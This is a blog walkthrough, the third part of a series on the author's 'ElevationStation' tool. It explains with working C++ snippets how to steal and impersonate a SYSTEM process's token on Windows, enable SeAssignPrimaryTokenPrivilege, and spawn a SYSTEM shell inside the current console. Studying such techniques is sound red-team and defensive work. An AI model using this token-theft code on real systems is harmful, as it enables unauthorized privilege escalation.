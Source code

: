 ```yaml
---
title:  "ElevationStation - A walkthrough through the development process [PART 3]"
categories:
  - privilege escalation
tags:
  - escalation
  - psexec
  - malware
  - red team
  - win32api
  - privesc
  - privilege escalation
  - elevationstation
  - getsystem
  - metasploit
---
```


Hey, we made it to part 3 already!  Glad you are still hanging around and hopefully this part is as insightful and exciting to you as it was for me...er...I get excited very easily.  You may not get as hyped as I did but that's cool, I'll shutup now and we can get started 😆  This is my favorite part of the entire code behind elevationstation, and consequently the portion of my research into privilege escalation using token manip that took the longest to figure out 😜

For Part 3, will be discussing SYSTEM token manipulation involving execution threads... 

Our goal: 
-
Spawn a SYSTEM shell within our current shell, and not a separate shell like we did in PART 1.

The Dilemma
- 
Each process has a set of privileges either enabled by default or disabled.  If the privilege we need isn't listed, we can't enable it.  There's no adding it magically into the process' current primary token.  We just so happen to need a privilege that is **NOT** enabled by default in an administrative command shell:
**SE_ASSIGNPRIMARYTOKEN_NAME**

Here are the token privileges for our admninistrative / elevated cmd.exe.  See for yourself, that privilege doesn't exist:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/fb5c8af8-9eb8-4d0b-b986-fa4a4db5f08c)

Why do we even need this stupid privilege in the first place?  Because CreateProcessAsUser, which allows for spawning a cmd shell within the current console, **MUST** have this privilege enabled in almost all circumstances to execute a new process.  Check this out:

**CreateProcessAsUserA function (processthreadsapi.h)**

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8c61852b-5e7c-481a-a81d-9d82e5bd6059)
[CreateProcessAsUser Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera)

The absolutely infuriating aspect to all this is **CreateProcessWithToken** is VERY forgiving with required token privileges for spawning a new process.  
However, it has a "bug" which will not allow the spawning of a process within the current process.  In our case, a new cmd shell within our current cmd shell.
If ANYONE knows a way around this, please, speak up.  Inquiring minds need to know 🤔

The Solution!
-
Residing in our target process we wish to steal privs from lies the highly sought after privilege we so desperately need.  

`Step 1` - We need to steal & impersonate the process impersonation token from the target process with SYSTEM privileges
```cpp
int DupThreadToken(DWORD pid)
{
    setProcessPrivs(SE_DEBUG_NAME);
    remoteproc = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, TRUE, pid);
    if (remoteproc)
    {
        Color(2);
        wprintf(L"[+] Opened remote process!\n");
        Color(7);
    }
    else
    {
        Color(14);
        wprintf(L"[!] OpenProcess(). Error: %d\n", GetLastError());
        Color(7);
    }
    
   ➡️ if (!OpenProcessToken(remoteproc, TOKEN_IMPERSONATE | TOKEN_DUPLICATE | TOKEN_QUERY | TOKEN_ASSIGN_PRIMARY, &tok2)) ⬅️
    {
        Color(14);
        wprintf(L"[!] OpenProcessToken(). Error: %d\n", GetLastError());
        Color(7);
    }
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2de0b57e-7b0f-4fc6-a4d2-923625e4992e)

Okay!  so now we have a handle to the process token for the target process, in this case it is **AppleMobleDeviceService.exe**, which is running as **NT AUTHORITY/SYSTEM**

Next up, we need to set the new token privs to our current process' execution thread.  I duplicate the impersonation token here to be on the safe side, but it may not be necessary. Either way, it works so no harm done.  So, dup the remote process token and then set the threadtoken to our current thread using `NULL`

```cpp
if (!DuplicateToken(tok2, SecurityImpersonation, &hNewToken))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx() failed. Error: %d\n", GetLastError());
        Color(7);
    }
    if (SetThreadToken(NULL, hNewToken))
    {
        Color(2);
        printf("[+] Successfully set the thread token!\n");
        Color(7);
    }
```
We now have the remote process' privileges in our current process' execution thread!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/dad2d5f9-7b27-4838-8f16-a81385051aee)

Now that we hold the privileges of the SYSTEM process, let's enable the privilege we wanted in the first place!

```cpp
setThreadPrivs(SE_INCREASE_QUOTA_NAME);     //need this for CreateProcessAsUser!
setThreadPrivs(SE_ASSIGNPRIMARYTOKEN_NAME); //need this for CreateProcessAsUser!
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2637214c-ab91-4c32-945a-52efcdcdf121)

Awesome, it's now enabled and I also went ahead and enabled SeIncreaseQuotaPrivilege too just in case.

We're almost there!  From here, we do some final magic and open a threadtoken against our current process now that we have all our privileges set, and duplicate that token to create a new primary token.  From there, we now finally have a handle to a brand new primary token that holds that privilege we needed from the **SYSTEM** process we stole it from!  All this just to spawn a shell within our current shell because this API is rude... 😠😆  Here's the code:
```cpp
 if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hSystemToken))
    {
        Color(14);
        wprintf(L"[!] OpenThreadToken(). Error: %d\n", GetLastError());
        Color(7);
    }
  if (!DuplicateTokenEx(hSystemToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx() failed. Error: %d\n", GetLastError());
        Color(7);
    }
    bRet = CreateProcessAsUser(hSystemTokenDup, NULL, wszProcessName, NULL, NULL, TRUE, dwCreationFlags, lpEnvironment, pwszCurrentDirectory, &StartupInfo, &ProcInfo);

    if (bRet == 0)
    {
        Color(14);
        printf("[!] CreateProcessAsUser didn't cooperate...\n");
        Color(7);
        printf("Return value: %d\n", GetLastError());
    }
    else
    {
        Color(2);
        printf("[+] CreateProcessAsUser worked!!!\n");
        Color(7);
        printf("Return value: %d\n", bRet);
        fflush(stdout);
        WaitForSingleObject(ProcInfo.hProcess, INFINITE);

    }
```
and the shell!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/a446b774-b475-4c2c-aa82-45e96ff21db3)

Okay, you can breathe.  It's over, you made it to the end. Well done.  I'm tired now so I'm going to bring this to a close.  Hopefully this made some sense and you learned how high maintenance some windows APIs can be. That said, we still managed to overcome our obstacle and pop that desired shell.  Until next time!

-RBC

